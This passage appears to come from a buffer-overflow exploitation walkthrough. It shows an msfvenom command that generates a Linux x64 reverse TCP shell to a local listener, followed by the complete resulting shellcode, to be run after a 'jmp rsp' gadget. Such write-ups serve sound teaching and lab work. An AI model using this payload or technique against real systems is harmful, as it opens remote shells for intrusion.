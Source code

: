 ![](images/image11.png)

With all the addresses above we just need a shellcode to be executed after the `jmp rsp` call. We can use `msfvenom` to create a reverse shell
```bash
$ msfvenom -p linux/x64/shell_reverse_tcp RHOST=127.0.0.1 LPORT=1234 -f py -b '\x00'

Payload size: 119 bytes
Final size of py file: 597 bytes
shellcode =  b""
shellcode += b"\x48\x31\xc9\x48\x81\xe9\xf6\xff\xff\xff\x48\x8d\x05"
shellcode += b"\xef\xff\xff\xff\x48\xbb\xc6\x90\x7e\x57\xca\xcb\x72"
shellcode += b"\xeb\x48\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4"
shellcode += b"\xac\xb9\x26\xce\xa0\xc9\x2d\x81\xc7\xce\x71\x52\x82"
shellcode += b"\x5c\x3a\x52\xc4\x90\x7a\x85\x0a\x63\x73\x83\x97\xd8"
shellcode += b"\xf7\xb1\xa0\xdb\x28\x81\xec\xc8\x71\x52\xa0\xc8\x2c"
shellcode += b"\xa3\x39\x5e\x14\x76\x92\xc4\x77\x9e\x30\xfa\x45\x0f"
shellcode += b"\x53\x83\xc9\xc4\xa4\xf9\x10\x78\xb9\xa3\x72\xb8\x8e"
shellcode += b"\x19\x99\x05\x9d\x83\xfb\x0d\xc9\x95\x7e\x57\xca\xcb"
shellcode += b"\x72\xeb"
```
